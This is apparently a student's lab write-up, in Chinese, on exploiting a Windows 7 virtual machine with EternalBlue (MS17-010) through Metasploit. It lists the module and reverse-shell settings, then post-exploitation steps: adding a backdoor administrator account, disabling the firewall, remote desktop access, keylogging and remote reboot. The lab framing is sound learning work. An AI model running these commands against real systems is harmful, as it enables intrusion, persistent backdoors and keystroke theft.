


# 网络攻防实验——永恒之蓝

## 1. 虚拟机安装

安装VMware，下载win7和Kali Linux镜像文件。安装虚拟机。

## 2. 配置网络环境

### 获取靶机和攻击机IP

靶机IP：192.168.179.5

攻击机IP：192.168.179.4

## 3. 扫描端口

用nmap命令对靶机端口服务进行扫描，发现445端口开启

## 4. 开始渗透

打开MSF渗透工具

search ms17_010：搜索 ms17_010漏洞

use exploit/windows/smb/ms17_010_eternalblue：进入漏洞模块

info：查看基本信息

set RHOST 192.168.179.5 ：设置靶机为攻击目标

show payloads：查看可用攻击的payload

set payload windows/x64/meterpreter/reverse_tcp：设置攻击的payload

set LHOST 192.168.179.4 ：设置攻击机为接受信息的本地设备

exploit：开始攻击

获取shell成功

## 5. 通过shell对靶机控制

net user hacker 123456 /add ：添加用户hacker 密码123456

net localgroup administrators hacker /add ：将hacker提升为管理员权限

net user 发现已将hacker添加至用户列表

net localgroup administrators 发现已将hacker 添加至管理员权限

**ps：此时还是乱码，后文会调整编码。**

打开靶机，发现用户添加成功

## 6. 实现远程桌面控制

打开远程桌面控制

扫描3389端口，发现已打开

在攻击机上连接靶机实现远程控制，但是失败了

通过shell命令，关闭靶机防火墙

再次连接成功！

## 7. 实现键盘监听

通过meterpreter命令，keyscan_start，keyscan_dump，keyscan_stop 实现键盘监听,失败了。

查找资料后，得知在system权限下，无法获取管理员的键盘记录，需要迁移至管理员权限

通过getuid命令，看到当前权限为system

ps命令 查找进程

migrate命令进行迁移，当前权限为管理员

keyscan_start：开启键盘监听

在靶机上输入have a good day，keyscan_dump获取输入内容

keyscan_stop：结束键盘监听

## 8. 改变靶机编码

因为Windows系统和Linux系统编码不同，所以要改变靶机编码，否则将会出现乱码

通过chcp 65001改变编码

发现改变前是乱码，改变后是正常文字

## 9. 远程操控重启

在管理员权限下，通过meterpreter输入reboot命令，靶机开始重启，连接断开。

## 10. 实验中遇到的问题

1. 第一次靶机系统安装的是Win7(x86)，发现无法被攻击，只有Win7(x64)才能被攻击。
  
2. 未开启文件与打印机共享，无法扫描到445端口。
3. 在用攻击机连接靶机远程桌面时，一直无法连接，显示error。在获取靶机shell，关闭靶机防火墙后，连接成功。
4. 未在管理员权限下进行键盘监听，监听不成功。需要进行进程迁移，迁移至管理员进程。
5. 未在管理员权限下重启，reboot不成功。同样迁移至管理员进程，成功！
6. 实验过程中有乱码出现，查找资料发现Windows编码与Linux编码不同，要改变Windows编码才能在Linux上正常显示。
